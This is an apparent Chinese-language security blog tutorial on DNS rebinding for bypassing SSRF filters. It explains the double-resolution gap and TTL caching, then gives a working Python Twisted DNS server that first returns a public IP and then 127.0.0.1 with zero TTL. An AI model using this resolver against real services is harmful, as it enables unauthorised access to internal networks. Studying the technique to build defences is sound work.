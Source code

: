 ```yaml
---
title: DNS Rebinding Attack 绕过SSRF限制
tags: SSRF
---
```


### 0x00 一般SSRF过滤

SSRF过滤器的方式大致是以下几个步骤：

1.  获取到输入的URL，从该URL中提取Host
2.  对该Host进行DNS解析，获取到解析的IP
3.  检测该IP是否是合法的，比如是否是私有IP等
4.  如果IP检测为合法的，则进入curl的阶段发包

我们从DNS解析的角度看，该检测方式一共有两次，第一次是步骤2中对该host进行DNS解析，第二次是使用curl发包的时候进行解析。这两次DNS解析存在时间差，这就是利用的地方。

### 0x01 什么是TTL

时间差对应的DNS中的机制是`TTL`。
> `TTL`是英语Time-To-Live的简称，意思为一条域名解析记录在DNS服务器中的存留时间。当各地的DNS服务器接受到解析请求时，就会向域名指定的NS服务器发出解析请求从而获得解析记录；在获得这个记录之后，记录会在DNS服务器中保存一段时间，这段时间内如果再接到这个域名的解析请求，DNS服务器将不再向NS服务器发出请求，而是直接返回刚才获得的记录；而这个记录在DNS服务器上保留的时间，就是`TTL`值。

`TTL`表示DNS里面域名和IP绑定关系的Cache在DNS上存活的最长时间。即请求了域名与iP的关系后，请求方会缓存这个关系，缓存保持的时间就是`TTL`。而缓存失效后就会删除，这时候如果重新访问域名指定的IP的话会重新建立匹配关系及cache。

### 0x02 攻击原理

在上面的过滤流程中，其实只有第一次的DNS解析是是否合法的检查，第二次是发起具体请求的DNS解析，如果在DNS第二次curl时进行解析的时候，我们能够更换URL对应的IP，同时当然要设置够短的`TTL`，那么在`TTL`之后、缓存失效之后，重新访问此URL，就能获取被更换后的IP。如果我们把第一次解析的IP设为合法IP，就能绕过Host合法性检查了；把第二次解析的IP设为内网IP，就达到了SSRF访问内网的目的。

**所以结论就是：DNS Rebinding Attack的原理是：利用服务器两次解析同一域名的短暂间隙，更换域名背后的IP达到突破一些防护限制进行SSRF攻击。**

### 0x03 实现方式

Bendawang 的文章总结了三种实现方法： 

1. 特定域名实现
2. 简单粗暴的两条A记录
3.  自建DNS服务器

了解详情可以点击：[原文链接](http://www.bendawang.site/2017/05/31/关于DNS-rebinding的总结/)

下面我来介绍一下相对来说最好用的方法，就是自建DNS服务器。

首先设置一个域名的A记录，假如IP为`233.233.233.233`，那我们就需要在这台服务器上开启DNS服务，

```python
from twisted.internet import reactor, defer
from twisted.names import client, dns, error, server

record={}

class DynamicResolver(object):

    def _doDynamicResponse(self, query):
        name = query.name.name

        if name not in record or record[name]<1:
            ip="166.166.166.166"
        else:
            ip="127.0.0.1"

        if name not in record:
            record[name]=0
        record[name]+=1

        print name+" ===> "+ip

        answer = dns.RRHeader(
            name=name,
            type=dns.A,
            cls=dns.IN,
            ttl=0,
            payload=dns.Record_A(address=b'%s'%ip,ttl=0)
        )
        answers = [answer]
        authority = []
        additional = []
        return answers, authority, additional

    def query(self, query, timeout=None):
        return defer.succeed(self._doDynamicResponse(query))

def main():
    factory = server.DNSServerFactory(
        clients=[DynamicResolver(), client.Resolver(resolv='/etc/resolv.conf')]
    )

    protocol = dns.DNSDatagramProtocol(controller=factory)
    reactor.listenUDP(53, protocol)
    reactor.run()



if __name__ == '__main__':
    raise SystemExit(main())
```

这个脚本可以做到第一次请求时返回外网地址，也就是SSRF过滤中第一次安全检查可以成功通过，在第二次请求的时候，TTL为0，返回内网地址。（⚠️需要安装python的twisted库）

### 0x04 总结

在遇到特定情况的时候，这个方法还是值得一用的，本文并未实际搭建环境进行测试。实际情况需准备自己的域名进行搭建。

*最后，推荐一下Typora这个Markdown编辑器，很适合写作，再配合Picgo+Gitee作为图床写东西很方便*

<img src="https://gitee.com/evilashz/MyIMGs/raw/master/img/image-20200715145823789.png" alt="image-20200715145823789" style="zoom:67%;" />

------



### 参考

[1]: http://www.bendawang.site/2017/05/31/关于DNS-rebinding的总结/
[2]: http://blog.leanote.com/post/snowming/e2c24cf057a4
[3]: https://blog.csdn.net/u011721501/article/details/54667714


